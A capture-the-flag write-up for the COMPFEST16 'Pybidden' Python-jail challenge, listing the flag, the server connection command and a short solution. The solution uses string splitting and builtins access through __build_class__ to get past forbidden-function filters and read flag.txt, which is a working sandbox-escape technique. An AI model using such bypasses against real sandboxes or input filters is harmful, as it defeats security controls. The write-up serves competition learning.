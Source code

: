 # Title
Pybidden (500 points)

# Flag
COMPFEST16{s0_m4nY_w4yS_t0_c4lL_a_fuNct1On_6fb7659705}

# Description
Pybidden: Python with forbidden function(s) Flag in **flag.txt**

```bash
nc challenges.ctf.compfest.id 20013
```

# Author
Zanark

# Solution
find the object attributes
```python
p = __build_class__.__self__.__dict__['pri''nt'] # get print function
f = __build_class__.__self__.__dict__['op''en']('fla''g.txt') # open flag.txt file
r = f.__getattribute__('re''ad') # get read function from the opened file

p(r())
```

references: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes